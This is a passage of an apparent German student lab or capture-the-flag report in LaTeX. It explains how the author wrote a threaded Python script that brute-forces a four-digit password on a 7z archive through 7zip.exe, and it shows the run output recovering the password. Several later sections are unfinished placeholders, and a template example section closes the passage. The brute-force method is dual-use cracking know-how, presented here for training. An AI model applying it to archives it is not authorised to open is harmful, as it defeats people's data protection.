Da ich also schon alle relevanten Daten aufgelistet habe, konnte ich den Eintrag des CEO einfach suchen und dessen \lstinline{public key} auslesen.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.95\textwidth]{./imgs/manager9000/ceo_pub_key.png}
\caption{Public key des CEO}
\label{fig:ceo_pub_key}
\end{figure}

\pagebreak
\section{Scriptkiddie 101}

\subsection{Kompromitierte Sicherheit}

\lstinputlisting[caption=open\_me\_easy.py,label=code:openmeeasy]{open_me_easy.py}

Ich habe dieses Python geschrieben das als erstes Argument den Pfad zur \lstinline{.7z} Datei annimmt und mit \lstinline{7zip.exe} das 4-stellige Zahlen Passwort Brute-Forced.

Globale Variablen
\begin{itemize}
    \item found: Ob das Passwort gefunden worden ist
    \item start: Von wo zu Probieren angefangen werden soll
    \item end: Bis wohin probiert werden soll
    \item file: Den Pfad zur 7zip Datei
\end{itemize}

\lstinline{run_sev_zip(pwd)} führt \lstinline{7zip.exe} mit dem gegebenen Passwort \lstinline{pwd} aus und gibt das Passwort aus wenn es richtig war.

Zeile 15 ruft \lstinline{7zip.exe} mit dem \lstinline{e} auf (für extract) und der angegebenen Datei \lstinline{file}. Nach dem Start wird per pipe das Passwort über stdin übergeben. Damit das \lstinline{7zip} beim Aufruf weder auf stdout oder stdin nichts ausgibt pipe ich sämtlichen Output zum subprocess.

Wenn der return-code von \lstinline{7zip} 0 ist, ist es mir gelungen die \lstinline{.7z} zu entzippen.

Das Script führt jeden Aufruf von \lstinline{7zip.exe} in einem eigenen Thread aus damit nicht auf die Ausführung von \lstinline{7zip.exe} gewartet wird.

Wenn man das Script aufruft kommt folgender Output
\begin{lstlisting}
PS C:\Users\...\labfiles\Scriptkiddie 101> python .\open_me_easy.py ".\zips\open_me_easy.7z"
At trying 0000
At trying 0001
.
.
At trying 4770
At trying 4769
Password for 7z file is 4777 
\end{lstlisting}

\subsection{Proof of Work}
\emph{TO BE DONE}

\subsection{Matryoshka}
\emph{TO BE DONE}

\subsection{Unforgettable}
\emph{TO BE DONE}

\subsection{Kompromitiert \& Kompromittiert}
\emph{TO BE DONE}

\section{Beispiele}

\subsection{Source Code formatieren}
Es folgen einige Beispiele wie Sourcecode in diesem Dokument formatiert und referenziert werden kann
(\hyperref[code:beispiel1]{siehe Listing~\ref*{code:beispiel1} auf Seite~\pageref*{code:beispiel1}} und \hyperref[code:beispiel2]{siehe Listing~\ref*{code:beispiel2} auf Seite~\pageref*{code:beispiel2}}).

Ebenso können kurzer Code oder kurze Befehle direkt in der Zeile in einem \lstinline{lstinline Block} mit typengleicher Schrift formatiert werden.

\lstinputlisting[caption=Example C/C++ file,label=code:beispiel1,style=c]{example.c}

\begin{lstlisting}[caption=Example bash script,label=code:beispiel2,style=simple]
#!/bin/bash
echo "Bash version ${BASH_VERSION}..."
for i in {0..10..2}
  do
     echo "Welcome $i times"
 done

echo "some very very very very very very very very very very very very very very very very very very very very long string"

exit 0;
\end{lstlisting}

\subsection{Bilder}

Es folgen einige Beispiele wie Bilder in diesem Dokument eingefuegt werden koennen
(\hyperref[fig:logo1]{siehe Abbildung~\ref*{fig:logo1} auf Seite~\pageref*{fig:logo1}}).

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.4\textwidth]{./imgs/logos/esse-logo-color.png}
  }
  \caption{ESSE Logo}
  \label{fig:logo1}
\end{figure}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


